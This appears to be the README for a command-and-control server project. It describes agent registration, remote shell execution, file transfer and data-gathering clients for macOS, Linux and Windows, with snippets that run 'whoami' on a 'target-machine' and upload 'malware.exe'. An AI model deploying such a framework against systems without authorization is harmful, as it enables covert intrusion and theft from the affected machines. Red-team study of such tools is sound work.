



# Enhanced C2 Server

A comprehensive Command and Control (C2) server built with FastAPI, featuring real-time agent management, command execution, file transfer capabilities, and a modern web dashboard.

## Features

### Core C2 Features
- **Agent Management**: Register, monitor, and manage multiple agents
- **Command Execution**: Execute shell commands on remote agents
- **Real-time Communication**: WebSocket-based real-time updates
- **File Transfer**: Upload and download files to/from agents
- **Heartbeat Monitoring**: Track agent status and connectivity
- **Authentication**: JWT-based authentication system
- **Web Dashboard**: Modern, responsive web interface

### Security Features
- JWT token authentication
- Password hashing with bcrypt
- CORS protection
- Input validation with Pydantic
- Secure file handling

### Technical Features
- FastAPI framework with async support
- WebSocket real-time updates
- File upload/download capabilities
- Comprehensive logging
- Health monitoring
- RESTful API design

## Screenshots

### Web Dashboard

*Main dashboard showing connected agents and command execution interface*

### Agent Management

*Agent management interface with real-time status monitoring*

### Command Execution

*Command execution interface with live results and output formatting*

## Installation

1. **Clone the repository**:
   ```bash
   git clone <repository-url>
   cd enhanced-c2
   ```

2. **Install dependencies**:
   ```bash
   pip3 install -r requirements.txt
   ```

3. **Set up environment variables** (optional):
   ```bash
   cp .env.example .env
   # Edit .env with your configuration
   ```

## Quick Start

1. **Start the C2 Server**:
   ```bash
   python3 main.py
   ```
   The server will start on `http://localhost:8000`

2. **Access the Web Dashboard**:
   Open your browser and navigate to:
   - **Main Dashboard**: `http://localhost:8000/`
   - **Simple Dashboard**: `http://localhost:8000/simple` (Recommended)
   - **API Documentation**: `http://localhost:8000/docs`

3. **Run a Sample Agent**:
   ```bash
   # Basic agent
   python3 sample_agent.py
   
   # Advanced cross-platform agent
   python3 advanced_client.py --client-id my-agent
   
   # Platform-specific agents
   python3 mac_client.py --client-id mac-agent
   python3 linux_client.py --client-id linux-agent
   python3 windows_client.py --client-id windows-agent
   ```

## Client Types

### Basic Client (`sample_agent.py`)
- Simple demonstration client
- Basic command execution
- Perfect for testing and learning

### Advanced Client (`advanced_client.py`)
- Cross-platform support (Windows, Linux, macOS)
- Full feature set including:
  - System information gathering
  - Screenshot capabilities
  - Process monitoring
  - File transfer
  - Heartbeat monitoring

### Platform-Specific Clients
- **macOS Client** (`mac_client.py`):
  - macOS-specific system information
  - LaunchDaemon management
  - System preferences access
  - Security information gathering

- **Linux Client** (`linux_client.py`):
  - Linux system information
  - systemd service management
  - Package management info
  - Kernel information

- **Windows Client** (`windows_client.py`):
  - Windows-specific APIs
  - Registry access
  - Windows services management
  - WMI integration

## Configuration

The server can be configured using environment variables or by modifying `config.py`:

- `SECRET_KEY`: JWT secret key for authentication
- `ADMIN_USERNAME`: Admin username (default: admin)
- `ADMIN_PASSWORD`: Admin password (default: admin123)
- `SERVER_HOST`: Server host (default: 0.0.0.0)
- `SERVER_PORT`: Server port (default: 8000)
- `UPLOAD_DIR`: Directory for uploaded files
- `DOWNLOAD_DIR`: Directory for downloaded files

## API Endpoints

### Authentication
- `POST /api/auth/login` - Login and get JWT token

### Agent Management
- `POST /api/agents/register` - Register a new agent
- `GET /api/agents` - List all agents
- `DELETE /api/agents/{agent_id}` - Remove an agent
- `POST /api/agents/{agent_id}/heartbeat` - Send heartbeat

### Command Execution
- `POST /api/commands/execute` - Execute a command on an agent
- `GET /api/commands/{agent_id}` - Get commands for an agent
- `POST /api/commands/result` - Submit command result
- `GET /api/commands/{agent_id}/results` - Get command results

### File Transfer
- `POST /api/files/upload` - Upload a file
- `GET /api/files/download/{filename}` - Download a file
- `GET /api/files/list` - List available files

### System
- `GET /api/health` - Health check
- `WS /ws` - WebSocket for real-time updates

## Usage Examples

### Registering an Agent
```python
import requests

agent_data = {
    "agent_id": "agent_001",
    "hostname": "target-machine",
    "username": "user",
    "os_info": "Windows 10",
    "ip_address": "192.168.1.100",
    "port": 0
}

response = requests.post("http://localhost:8000/api/agents/register", json=agent_data)
```

### Executing a Command
```python
command_data = {
    "agent_id": "agent_001",
    "command": "whoami",
    "command_type": "shell"
}

response = requests.post("http://localhost:8000/api/commands/execute", json=command_data)
```

### File Upload
```python
files = {"file": open("malware.exe", "rb")}
response = requests.post("http://localhost:8000/api/files/upload", files=files)
```

## Web Dashboard

The web dashboard provides:
- Real-time agent monitoring
- Command execution interface
- File management
- System logs
- Statistics and metrics

Access it at `http://localhost:8000` after starting the server.

## Sample Agent

The included `sample_agent.py` demonstrates how to create an agent that connects to the C2 server:

```bash
# Run with default settings
python3 sample_agent.py

# Run with custom server URL
python3 sample_agent.py --server http://192.168.1.10:8000

# Run with custom agent ID
python3 sample_agent.py --agent-id my-agent-001
```

## Security Considerations

⚠️ **WARNING**: This is a demonstration C2 server. For production use:

1. Change default credentials
2. Use strong, unique secret keys
3. Implement proper network security
4. Add rate limiting
5. Use HTTPS/TLS encryption
6. Implement proper logging and monitoring
7. Add input sanitization
8. Use a proper database instead of in-memory storage

## Development

### Project Structure
```
enhanced-c2/
├── main.py              # Main FastAPI application
├── config.py            # Configuration settings
├── sample_agent.py      # Sample agent client
├── requirements.txt     # Python dependencies
├── README.md           # This file
├── uploads/            # Upload directory
├── downloads/          # Download directory
└── static/             # Static files for web dashboard
```

### Adding New Features

1. **New API Endpoints**: Add routes in `main.py`
2. **New Agent Commands**: Extend the command execution system
3. **Database Integration**: Replace in-memory storage with a database
4. **Additional Security**: Implement additional security measures

## License

This project is for educational and demonstration purposes only. Use responsibly and in accordance with applicable laws and regulations.

## Contributing

1. Fork the repository
2. Create a feature branch
3. Make your changes
4. Add tests if applicable
5. Submit a pull request

## Support

For questions or issues, please open an issue on the repository or contact the maintainers.
